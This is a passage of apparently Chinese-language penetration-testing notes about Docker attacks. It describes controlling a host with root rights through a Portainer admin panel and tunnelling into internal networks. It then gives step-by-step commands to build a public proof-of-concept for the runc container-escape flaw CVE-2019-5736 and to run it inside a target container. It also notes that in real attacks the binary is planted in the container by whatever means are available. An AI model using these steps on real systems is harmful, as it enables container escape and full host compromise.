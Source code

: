 ![](../../.gitbook/assets/image%20%28598%29.png)

发现无法连通外网，添加DNS就可以了：

```text
vim /etc/resolv.conf
nameserver 8.8.8.8
```

目前已经通过Portainer后台控制宿主机，并且能够执行root权限任意命令，在实战中，网卡涉及到内网中可以在这台主机直接建立隧道代理。  
只要能够进入到后台，什么都好说。

## 容器漏洞

### CVE-2019-5736

攻击者可以修改runc的二进制文件导致提权，需要管理员执行exec才能触发，条件有限。

版本漏洞：  
docker version &lt;=18.09.2  
RunC version &lt;=1.0-rc6

下载bash脚本，安装环境：  
https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/

安装Go

```bash
wget https://storage.googleapis.com/golang/go1.9.linux-amd64.tar.gz
tar xf go1.9.linux-amd64.tar.gz
mv go /usr/local
vim /etc/profile
export GOROOT=/usr/local/go
export GOPATH=$HOME/work
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
source /etc/profile
go version
go env
```

下载POC  
https://github.com/Frichetten/CVE-2019-5736-PoC  
编译  
CGO\_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go

将编译的main复制到docker容器中，实际中肯定是想各种办法放到容器中

```bash
docker cp main name:/home
docker exec -it name bash
cd /home/
chmod 777 main
./main
```
